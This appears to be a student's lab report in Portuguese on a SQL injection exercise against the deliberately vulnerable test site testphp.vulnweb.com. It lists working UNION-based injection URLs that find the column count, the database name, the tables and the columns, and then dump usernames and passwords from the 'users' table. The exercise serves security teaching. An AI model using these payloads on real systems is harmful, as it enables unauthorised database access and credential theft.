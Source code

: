 # SQL Injection
## Relatório da Prática

Para realizar a prática, segui as questões propostas no [tutorial](https://github.com/leojaimesson/tutorial-sql-injection#pr%C3%A1tica).
O tutorial disponibilizar uma página online para realizar os ataques: `http://testphp.vulnweb.com/listproducts.php?cat=1`

 1. Descobrir quantidade de colunas.
	Para descobrir a quantidade de colunas que a tabela do alvo possui foi utilizado os seguintes comandos `union select {numero}`. Assim, a quantidade de colunas foi descoberta através do seguinte comando:
    > `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11`
    
    ![Ataque com sucesso](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Tor/screenshots/1.png)
    
2. Descobrir nome do banco
	O segundo passo foi descobrir o nome do banco. Para isso, foi utilizado o comando `database()` dentro da consulta. O nome do banco foi encontrado através do seguinte comando:
	> `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,database(),8,9,10,11 `
    
    ![2](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Tor/screenshots/2.png)
	
3. Descobrir quais são as tabelas do banco
	Para descobrir quais os nomes das tabelas que o banco possui, foi utilizado o seguinte comando:
    > `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,table_name,8,9,10,11 from information_schema.tables where table_schema = "acuart"`
	
    ![3](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Tor/screenshots/3.png)

4. Descobrir os usuários.
	Após ter descoberto a existência da tabela 'users', foi injetado um comando para descobrir os usuários do banco. O seguinte comando realiza a ação:
	> `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,column_name,8,9,10,11 from information_schema.columns where table_schema = "acuart" and table_name = "users" `

    
    ![4](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Tor/screenshots/4.png)

5. Buscar usuário e senha.
	Com os nomes das colunas da tabela 'users' descobertos, para buscar o usuário e senha bastou injetar o seguinte comando:
	> `http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,concat(uname,"-",pass),8,9,10,11 from users `

    
    ![5](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Tor/screenshots/5.png)
